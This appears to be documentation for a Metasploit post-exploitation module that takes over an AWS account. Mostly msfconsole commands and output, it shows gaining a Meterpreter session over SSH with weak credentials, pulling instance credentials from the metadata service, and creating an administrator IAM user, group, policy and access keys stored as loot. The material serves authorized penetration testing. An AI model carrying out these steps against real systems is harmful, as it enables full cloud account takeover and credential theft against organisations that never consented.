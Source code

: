 # aws_create_iam_user

aws_create_iam_user is a simple post module that can be used to take over AWS
accounts. Sure, it is fun enough to take over a single host, but you can own all
hosts in the account if you simply create an admin user.

## Privileges

This module depends on administrators being lazy and not using the least
privileges possible. Only on rare cases should instances have the following
privileges.

* iam:CreateUser
* iam:CreateGroup
* iam:PutGroupPolicy
* iam:AddUserToGroup
* iam:CreateAccessKey

## Establish a foothold

You first need a foothold in AWS, e.g., here we use `sshexec` to get the
foothold and launch a meterpreter session.

```
$ ./msfconsole
...
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) > set password some_user
password => some_user
msf exploit(sshexec) > set username some_user
username => some_user
msf exploit(sshexec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf exploit(sshexec) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf exploit(sshexec) > exploit -j
[*] Exploit running as background job.

[*] Started bind handler
msf exploit(sshexec) > [*] 192.168.1.2:22 - Sending stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Command Stager progress -  42.09% done (306/727 bytes)
[*] Command Stager progress - 100.00% done (727/727 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:33750 -> 192.168.1.2:4444) at 2016-11-21 17:58:42 +0000
```

We will be using session 1.

```
msf exploit(sshexec) > sessions

Active sessions
===============

  Id  Type                   Information                                                                       Connection
  --  ----                   -----------                                                                       ----------
  1   meterpreter x86/linux  uid=50011, gid=50011, euid=50011, egid=50011, suid=50011, sgid=50011 @ ip-19-...  192.168.1.1:41634 -> 192.168.1.2:4444 (192.168.1.2)

```

## Create IAM User

Now you can load `aws_create_iam_user` and specify a meterpreter sesssion,
e.g., `SESSION 1`.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > exploit

[*] 169.254.169.254:80 - looking for creds...
[*] Creating user: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] Path: /
[!] UserName: metasploit
[!] Arn: arn:aws:iam::097986286576:user/metasploit
[!] UserId: AIDA...
[!] CreateDate: 2016-11-21T17:59:50.010Z
[*] Creating group: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] Path: /
[!] GroupName: metasploit
[!] Arn: arn:aws:iam::097986286576:group/metasploit
[!] GroupId: AGPAIENI6YTM5JVRQ2452
[!] CreateDate: 2016-11-21T17:59:50.554Z
[*] Creating group policy: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] xmlns: https://iam.amazonaws.com/doc/2010-05-08/
[!] ResponseMetadata: {"RequestId"=>"4c43248-d314-1226-bedd-234234232"}
[*] Adding user (metasploit) to group: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] xmlns: https://iam.amazonaws.com/doc/2010-05-08/
[!] ResponseMetadata: {"RequestId"=>"4c43248-d314-1226-bedd-234234232"}
[*] Creating API Keys for metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] AccessKeyId: AKIA...
[!] SecretAccessKey: THE SECRET ACCESS KEY...
[!] AccessKeySelector: HMAC
[!] UserName: metasploit
[!] Status: Active
[!] CreateDate: 2016-11-21T17:59:51.967Z
[+] API keys stored at: /home/pwner/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt
[*] Post module execution completed
msf post(aws_create_iam_user) > exit -y
```

You can see that the API keys stored in loot. Want console access, use [aws_console](../../gather/aws_console.md)

```
$ cat ~/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt

{"AccessKeyId":"AKIA...","SecretAccessKey":"THE SECRET ACCESS KEY...","AccessKeySelector":"HMAC","UserName":"metasploit","Status":"Active","CreateDate":"2016-11-21T17:59:51.967Z"}
```